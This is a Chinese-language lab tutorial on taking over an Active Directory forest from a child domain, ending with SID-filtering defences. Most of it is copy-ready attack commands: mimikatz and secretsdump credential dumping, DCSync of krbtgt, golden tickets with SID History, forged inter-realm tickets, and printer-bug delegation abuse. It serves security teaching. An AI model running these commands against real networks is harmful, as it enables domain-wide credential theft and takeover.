域林攻击¶
如果碰到了目标是域林的架构，在拿下了域林中某个子域的控制权限后，如何通过子域横向到林根域进而控制整个域林呢？本文主要讲解域林中横向渗透的一些手法和攻击思路。
有如下实验环境：
xie.com 是域林的林根域，shanghai.xie.com 和 beijing.xie.com 都是xie.com 的子域。shanghai.xie.com 域中有一个域内主机 Win2008R2，beijing.xie.com 域中有一个域内主机 Win10。整体架构如图所示：

现在通过其他手段拿下了主机 Win2008R2 的权限，并且通过执行相关命令得知当前主机 Win2008R2 在 shanghai.xie.com 域内。通过查询域信任关系可以得知当前域林中有三个域。林根域为 xie.com，两个子域为 beijing.xie.com 和shanghai.xie.com。
如图所示，通过 CobaltStrike 执行相关查询命令：

通过 CobaltStrike 内置的 mimikatz 模块抓取到当前机器用户的凭据。用户为域 shanghai.xie.com 下的 sh_test，密码为：P@ss1234。

现在我们需要通过该机器以及获取到的信息进行域林横向，直至接管整个域林！
查询域控¶
这一步主要查询域林中三个域的域控制器。查询的手段有很多，这里只演示使用 adfind、nslookup 和 nltest 进行查询。
通过这些手段查询得到三个域的域控制器的信息如下：
林根域 xie.com 域控制器：
- AD：10.211.55.4
- AD02：10.211.55.8
域 shanghai.xie.com 域控制器：
- SH-AD：10.211.55.13
域 beijing.xie.com 域控制器：
- BJ-AD：10.211.55.14
具体查询命令如下：
1.Adfind 查询¶
使用 adfind 进行查询，只需要查询的时候指定不同的域 base DN，即可查询出不同域的域控制器
#adfind 查询域 xie.com 的域控
Adfind.exe -b dc=xie,dc=com -sc dclist
#adfind 查询域 shanghai.xie.com 的域控
Adfind.exe -b dc=shanghai,dc=xie,dc=com -sc dclist
#adfind 查询域 beijing.xie.com 的域控
Adfind.exe -b dc=beijing,dc=xie,dc=com -sc dclist
如图所示，通过 adfind 查询得到三个域的域控制器。

2.nslookup 查询¶
#nslookup 查询 xie.com 的域控
nslookup -qt=ns xie.com
#nslookup 查询 beijing.xie.com 的域控
nslookup -qt=ns beijing.xie.com
#nslookup 查询 shanghai.xie.com 的域控
nslookup -qt=ns shanghai.xie.com
通过 nslookup 命令查询出林根域 xie.com 的域控：

3.nltest 查询¶
#nltest 查询 xie.com 的域控
nltest /DCLIST:xie.com
#nltest 查询 beijing.xie.com 的域控
nltest /DCLIST:beijing.xie.com
#nltest 查询 shanghai.xie.com 的域控
nltest /DCLIST:shanghai.xie.com
注：要查询当前域的域控制器，只需要执行 net group "domain controllers" /domain 即可查询。
查询域管理员和企业管理员¶
查询域林中三个域的域管理员和林根域的企业管理员，为后面的权限提升做准备。查询的手段有很多，这里只显示使用 adfind 和 ADExplorer 进行查询。企业管理员只能在林根域 xie.com 内查询。通过下面这些手段查询得到三个域的域管理员的如下信息：
林根域 xie.com 的域管理员和企业管理员：
- 域管理员：administrator、admin
- 企业管理员：administrator
域 shanghai.xie.com 的域管理员：
- 域管理员：administrator、sh_admin
域 beijing.xie.com 的域管理员：
- 域管理员：administrator、bj_admin
具体查询命令如下：
1.Adfind 查询¶
#查询林根域的企业管理员
Adfind.exe -b "CN=Enterprise Admins,CN=Users,DC=xie,DC=com" member
#查询林根域的域管理员
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=xie,DC=com" member
#查询 beijing.xie.com 的域管理员
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=beijing,DC=xie,DC=com" member
#查询 shanghai.xie.com 的域管理员
Adfind.exe -b "CN=Domain Admins,CN=Users,DC=shanghai,DC=xie,DC=com" member
2.ADExplorer 查询¶
除了使用 Adfind 查询外，我们还可以使用 ADExplorer 查询。只需要查询不同域的时候，使用当前获得的凭据连接不同域的域控制器即可。
如图所示，要查询当前域 shanghai.xie.com 的域管理员，只需要使用当前获得的凭据 sh_test 和密码连接 shanghai.xie.com 的域控制器 10.211.55.13 即可。

然后查询 Users 容器下 Domain Admins 组的 member 属性即可查询到域管理员。如图所示，可以看到查询到域管理员 sh_admin 和 administrator。

注：要查询当前域的域管理员，只需要执行 net group "domain admins" /domain 即可查询。
查询所有域用户¶
在当前主机 Win2008R2 通过执行如下命令查询当前域所有域用户。

然后可以使用 adfind 执行如下命令查询其他域的所有用户。
#adfind 查询域 xie.com 的所有域用户
Adfind.exe -b dc=xie,dc=com -f "(&(objectCategory=person)(objectClass=user))" -dn
#adfind 查询域 beijing.xie.com 的所有域用户
Adfind.exe -b dc=beijing,dc=xie,dc=com -f "(&(objectCategory=person)(objectClass=user))" -dn
查询所有域主机¶
在当前主机 Win2008R2 通过执行如下命令查询当前域所有域主机。

然后可以使用 adfind 查询其他域的所有主机。
#adfind 查询域 xie.com 的所有域主机
AdFind.exe -b dc=xie,dc=com -f "objectcategory=computer" dn
#adfind 查询域 beijing.xie.com 的所有域主机
AdFind.exe -b dc=beijing,dc=xie,dc=com -f "objectcategory=computer" dn
跨域横向¶
现在假设已经通过其他漏洞获得了某个子域的域控制器权限，然后需要跨域横向获得林根域 xie.com 的域控制器权限，进而接管整个域林。这里进行跨域横向使用的方法均涉及到了 SID History。
1.获得子域权限¶
假设现在我们已经拿到了 shanghai.xie.com 的域控和域管理员权限，如图所示：

通过 CobaltStrike 内置的 mimikatz 模块抓取到 shanghai.xie.com 的域管理员 administrator 的凭据如下：
哈希：af112951ba8629d25a6a44417579283d 通过解密得到明文：P@ssword12345
然后就可以使用 secretsdump.py 脚本执行如下命令利用该域管理员凭据导出当前域 shanghai.xie.com 的任意用户哈希了。
#导出当前域中 krbtgt 用户哈希，由于域林中每个域都有 krbtgt 用户，因此需要加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user "shanghai\krbtgt"
注意，这里指定用户时需要加前缀，如：shanghai\krbtgt 。因为在域林中，每个域中都有 krbtgt 用户，因此需要指定。

如果导出的是这个域中特有的用户，或者是直接导出所有用户的话可不指定前缀。命令如下：
#导出当前域中特有的用户哈希，此时可不加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user sh_test
#导出当前域中所有用户哈希，此时可不加前缀
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc

并且需要注意的是，子域 shanghai.xie.com 的域管理员无权限 DCSync 林根域 xie.com 和另一个子域 beijing.xie.com。
如图所示，子域的域管理员凭据无权限导出其他域的用户哈希。

2.黄金票据+SID History 获得林根域权限¶
SID history 是在微软 Windows 服务器环境中用于身份验证和授权的一个重要概念，尤其是在 Active Directory (AD) 迁移过程中。
SID的概念:SID (Security Identifier) 是每个对象（用户、组、计算机等）在 Windows 系统中的唯一标识符。它用于标识特定的用户或组，系统通过 SID 来授予访问权限。当用户尝试访问文件或资源时，系统会检查其 SID 和访问控制列表 (ACL) 来确定是否允许访问。
SID History 的作用:当一个用户或组从一个域迁移到另一个域时，它们会获得一个新的 SID。问题是，目标域中的资源（如文件、文件夹、共享等）是基于旧域中的 SID 进行访问控制的，因此迁移后，用户可能无法访问原有资源。SID history 的作用是为用户保留其旧的 SID，从而在新环境中依然可以访问原域中的资源，而无需重新配置访问权限.
工作原理:当用户登录并尝试访问资源时，系统不仅检查其当前域中的 SID，还会查看用户的 SID history。如果 SID history 中的任何一个 SID 与资源的 ACL 匹配，用户将被授予访问权限。
例如：用户 A 从域 DomainA 迁移到域 DomainB。在迁移过程中，用户 A 获得了一个新的 SID，但同时保留了在 DomainA 中的旧 SID。用户 A 尝试访问一个仍然属于 DomainA 的文件，而该文件的权限基于用户 A 在 DomainA 时的 SID。SID history 中包含用户 A 的旧 SID，因此系统允许用户访问该文件
上面我们已经获得了子域 shanghai.xie.com 的域控制器权限和域管理员权限了，现在我们想通过已有的权限获得整个域林的控制权限。这里我们演示使用黄金票据+SID History 攻击来跨域横向获得林根域权限。
使用黄金票据+SID History 攻击首先需要获取当前域 shanghai.xie.com 的域SID 以及林根域 xie.com 的 Enterprise Admins 的 SID，这个通过 adfind 或者adexplorer 均可查询到，查询结果如下：
- shanghai.xie.com 的域 SID 为：S-1-5-21-909331469-3570597106-3737937367
- xie.com 的 Enterprise Admins 的 SID 为：S-1-5-21-1313979556-3624129433-4055459191-519
而 shanghai.xie.com 的 krbtgt 哈希在上面我们已经导出来了，为：17016f19a93e50c80860f32130fd600f
这里我们演示通过 mimikatz 执行如下命令进行黄金票据+SID History 攻击：
#生成林根域的黄金票据
kerberos::golden /user:administrator /domain:shanghai.xie.com /sid:S-1-5-21-909331469-3570597106-3737937367 /krbtgt:17016f19a93e50c80860f32130fd600f /sids:S-1-5-21-1313979556-3624129433-4055459191-519 /ptt
#导出林根域 xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv
如图所示，可以看到利用完成后，即可导出林根域 xie.com 的 krbtgt 用户哈希了！

至此，我们已经获得了整个域林的访问权限了！
3.inter-realm key+SID History 获得林根域权限¶
域信任中我们讲到了跨域资源是如何访问的。如图所示:

因此只要我们获取到了 inter-realm key 就能制作访问其他域任意服务的 ST服务票据了。然后在 ST 服务票据中加上企业管理员的 SID History，就可以以企业管理员权限访问域林中的任意服务了！
那么如何获得 inter-realm key 呢？只要获得了域林中任意域的域控制器权限，即可通过相关工具查询出 inter-realm key。以下我们演示通过 mimikatz 和impacket 脚本获得 inter-realm key。
(1) mimikatz 获得 inter-realm key¶
在 shanghai.xie.com 域控制器 SH-AD 上通过 mimikatz 执行如下命令获得inter-realm key 的值。

获得如下信息：
- 获得这个 rc4_hmac_nt 的值为：0f81015ca4691b714e9db485568e5e6b
- shanghai.xie.com 的域 SID 为：S-1-5-21-909331469-3570597106-3737937367
- xie.com 的 Enterprise Admins 的 SID 为：S-1-5-21-1313979556-3624129433-4055459191-519
(2) powershell 获得 inter-realm key¶
我们都知道，加$的是机器账号。但是在域林内，在 Users 组带$的是信任账号，信任账号的哈希就是 inter-realm key。
我们可以在 shanghai.xie.com 的域控上执行如下命令查询，可以看到查询出来的是 XIE$账号，因为该域是和 xie.com 进行双向信任，因此信任账号是XIE$。
如图所示，查询出信任账号 XIE$。

然后可以使用 secretsdump 执行如下命令导出该信任用户 XIE$的哈希了。
python3 secretsdump.py shanghai/administrator:P@ssword12345@10.211.55.13 -just-dc-user "shanghai\XIE$"
如图所示，导出信任账号 XIE$的哈希，该哈希即是 inter-realm key

(3) impacket 攻击¶
通过上面手段获得 inter-realm key 后，可以利用 impacket 执行如下命令进行攻击：
#生成高权限的黄金票据
python3 ticketer.py -nthash 0f81015ca4691b714e9db485568e5e6b -domain-sid S-1-5-21-909331469-3570597106-3737937367 -extra-sid S-1-5-21-1313979556-3624129433-4055459191-519 -domain shanghai.xie.com -spn krbtgt/xie.com administrator
#导入票据
export KRB5CCNAME=administrator.ccache
#获得高权限的 cifs/ad.xie.com 的 ST 服务票据
python3 getST.py -debug -k -no-pass -spn cifs/ad.xie.com -dc-ip 10.211.55.4xie.com/administrator
#远程连接林根域控
python3 smbexec.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com
#导出林根域内 krbtgt 的哈希
python3 secretsdump.py -no-pass -k shanghai.xie.com/administrator@ad.xie.com-just-dc-user "xie\krbtgt"
如图所示，可以看到利用完成后即可远程连接林根域的域控制器：

如图所示，导出林根域 krbtgt 用户的哈希。

(4) mimikatz 攻击¶
获得 inter-realm key 后，可以利用 mimikatz 执行如下命令进行攻击。
#生成高权限的黄金票据
kerberos::golden /user:administrator /domain:shanghai.xie.com /sids:S-1-5-21-1313979556-3624129433-4055459191-519 /sid:S-1-5-21-909331469-3570597106-3737937367 /krbtgt:0f81015ca4691b714e9db485568e5e6b /service:krbtgt /target:xie.com /ptt
如图所示，将黄金票据导入内存后，即可远程访问林根域的域控制器了。

4.利用非约束性委派¶
域控制器默认配置了非约束性委派的选项。因此当我们控制了子域的域控制器后，我们可以利用子域的域控制器来进行非约束性委派的攻击。
– 子域域控：SH-DC01
– 要攻击的根域域控：DC02
首先在子域域控制器上执行如下命令进行监听来自 DC02 的票据
然后在子域域控制器上执行如下命令使用打印机服务漏洞攻击林根域域控DC02，使其强制回连认证我们的子域域控制器 sh-DC01。
攻击完成后可以看到我们的 Rubeus 已经收到来自 DC02 的 base64 的 TGT认购权证了。

然后我们可以直接使用 Rubeus 执行如下命令导入这个 base64 的 TGT 认购权证，就可以使用 mimikatz 导出林根域的所有用户 hash 了。
Rubeus.exe ptt /ticket:base64 格式的票据
mimikatz.exe "lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv" "exit"


获得林根域的后操作¶
获得林根域 xie.com 的域控制器权限后，即可使用 mimikatz 执行如下命令导出全林中任意域的指定用户的哈希：
#导出域 xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:xie.com /user:xie\krbtgt /csv
#导出域 beijing.xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:beijing.xie.com /user:beijing\krbtgt /csv
#导出域 shanghai.xie.com 内 krbtgt 用户的哈希
lsadump::dcsync /domain:shanghai.xie.com /user:shanghai\krbtgt /csv
在林根域的域控上使用 mimikatz 执行如下命令导出全林中任意域的所有用户的哈希。
#导出域 xie.com 内所有用户的哈希
lsadump::dcsync /domain:xie.com /all /csv
#导出域 beijing.xie.com 内所有用户的哈希
lsadump::dcsync /domain:beijing.xie.com /all /csv
#导出域 shanghai.xie.com 内所有用户的哈希
lsadump::dcsync /domain:shanghai.xie.com /all /csv
或者可以通过 CobaltStrike 内置的 mimikatz 模块得到林根域 xie.com 的域管理员 administrator 的哈希为：33e17aa21ccc6ab0e6ff30eecb918dfb，如图所示：

通过解密该哈希得到明文密码为：P@ssword1234。然后通过 impacket 下的secretsdump.py 脚本执行如下命令通过 DCSync 远程导出全林内指定用户的哈希，要导出哪个域的哈希，就连接指定域的域控，如果是导出指定用户，需要加上前缀
#导出域 xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.4 -just-dc-user "xie\krbtgt"
#导出域 shanghai.xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.13 -just-dc-user "shanghai\krbtgt"
#导出域 beijing.xie.com 内 krbtgt 用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.14 -just-dc-user "beijing\krbtgt"
也可以执行如下命令通过 impacket 导出不同域所有用户的哈希。
#导出域 xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.4 -just-dc
#导出域 shanghai.xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.13 -just-dc
#导出域 beijing.xie.com 内所有用户的哈希
python3 secretsdump.py xie/administrator:P@ssword1234@10.211.55.14 -just-dc
域林横向攻击防御¶
SID 过滤¶
在同一个域森林内部，SID History 属性没有被 SID 过滤机制保护，导致攻击者可以利用 SID History 属性进行权限提升。而在跨森林的域信任关系中，SIDHistory 属性被 SID 过滤机制所保护，因此攻击者无法通过 SID History 属性进行跨森林横向攻击。这也是微软宣传的域森林是活动目录的安全边界的原因所在。因此，针对域林横向攻击防御的最佳手段就是配置域森林内部的 SID 过滤。
如何开启 SID 过滤¶
使用微软官方提供的 netdom 工具来开启 SID 过滤。
使用 netdom 执行如下命令开启域 shanghai.xie.com 到域 xie.com 的 SID 过滤。

禁用 SID History¶
禁用之前一定要确保当前域内正常的资源访问不涉及到 SID History。禁用 SID History 可以使用微软提供的 netdom 工具，执行如下命令即可禁用：
#禁用 shanghai.xie.com 到 xie.com 的 SID History
netdom trust /d:shanghai.xie.com xie.com /EnableSIDHistory:no
#禁用 beijing.xie.com 到 xie.com 的 SID History
netdom trust /d:beijing.xie.com xie.com /EnableSIDHistory:no
